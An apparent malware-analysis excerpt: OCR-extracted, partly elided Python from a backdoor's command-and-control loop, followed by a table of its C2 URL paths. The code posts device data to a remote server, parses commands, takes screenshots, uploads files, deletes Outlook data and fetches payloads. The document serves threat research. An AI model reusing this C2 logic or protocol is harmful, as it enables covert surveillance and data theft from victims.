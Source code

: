 ur = requests.post(url, data={'beau': name_device + ';' + str(getLastModDir(4))})   resArr = ur.text   Im_extin = resArr.split(';')[0]   if ur.status_code == 200:       if resArr == 'Lee':           register_new_device(FranDrescher)       elif resArr == 'Melissa':           pass       elif resArr == 'Renee':           status = Delete_Request(Im_extin)       elif resArr == 'nero':           pass  else:           Im_extintion = resArr.split(';')[1]           if Im_extintion == 'Rapunzel':               path = args_parser(MyFolderName)               status = Upload_File('else', path, FranDrescher, Im_extin)               if status:                   status = Delete_Request(Im_extin)               if Im_extintion == 'Gal_Gadot':                   path = Sec_Shot(MyFolderName)                   status = Upload_File('lucretia', path, FranDrescher, Im_extin)                   if status:                       status = Delete_Request(Im_extin) ......... if Im_extintion == 'Ed_ONeill':                   F_Out = resArr.split(';')[2]                   src_B = base64ToString(F_Out)                   if src_B == 'delete':                       status = Del_Outlook()                   else:.........if Im_extintion == 'groot':                   src_path = resArr.split(';')[2]                   dist_path = resArr.split(';')[3]                   src_B = base64ToString(src_path)                   src_B_D = base64ToString(dist_path)                   if os.path.exists(src_B) and os.path.exists(src_B_D





The response is split via ‘;’ delimiter, and depending on the position, contains parameters that can be received in plain text or encoded in base64, depending on each situation.
The following table summarizes the paths and parameters used during the C2 interactions and their functionality:



Path
Method
Variables


/zoailloaze/sfuxmiibif/samantha
Delete request. Unregister.
beau


/zoailloaze/sfuxmiibif/lashawna
Device registration.
beau


/zoailloaze/sfuxmiibif/matheny
Send command output data.
beau, terrel


/zoailloaze/sfuxmiibif/uiasfvz
USB device information
beau, type


/zoailloaze/sfuxmiibif/daryl
Delete request.
arturo, beau


/zoailloaze/sfuxmiibif/qprbudls
Download payload.
beau
